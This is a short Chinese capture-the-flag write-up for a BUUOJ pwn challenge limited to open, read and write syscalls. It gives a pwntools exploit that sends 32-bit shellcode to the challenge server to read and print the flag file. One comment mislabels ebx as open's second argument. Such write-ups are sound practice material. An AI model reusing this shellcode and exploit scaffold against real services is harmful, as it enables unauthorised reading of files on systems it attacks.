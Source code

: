 ![](2.png)
可以看到输出把允许的系统调用用绿色标了出来，允许open、read、write。因此直接用open打开flag文件，读取若干字节到某个地址之后再写出来就可以了。这里选择将数据写在栈上，简单方便。

其中使用到了三个系统调用，32位x86的系统调用号以及使用的参数表在[这里](https://blog.csdn.net/Nashi_Ko/article/details/120288385?spm=1001.2014.3001.5506)查询

exp：
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27084)

payload = 'push 0x0;'			# string ends
payload += 'push 0x67616c66;'	# string 'flag'
payload += 'mov ebx,esp;'		# second argument of syscall 'open'
payload += 'mov eax,5;'			# syscall code 5: open
payload += 'xor ecx,ecx;'
payload += 'xor edx,edx;'
payload += 'int 0x80;'			# open file './flag'

payload += 'mov eax,3;'			# syscall code 3: read
payload += 'mov ecx,ebx;'		# read file './flag' to stack (ebx==esp now)
payload += 'mov ebx,3;'			# fd, 0 => stdin, 1 => stdout, 2 => stderr, >=3 => others
payload += 'mov edx,0x100;'		# readsize, choose 0x100
payload += 'int 0x80;'			# read file './flag'

payload += 'mov eax,4;'			# syscall code 4: write
payload += 'mov ecx,esp;'
payload += 'mov ebx,1;'			# second argument of syscall 'write': fd for stdout
payload += 'mov edx,0x100;'		# write size, choose 0x100
payload += 'int 0x80;'			# syscall code 4: write

print(asm(payload))
io.sendlineafter(b'Give my your shellcode:', asm(payload))
io.interactive()
```
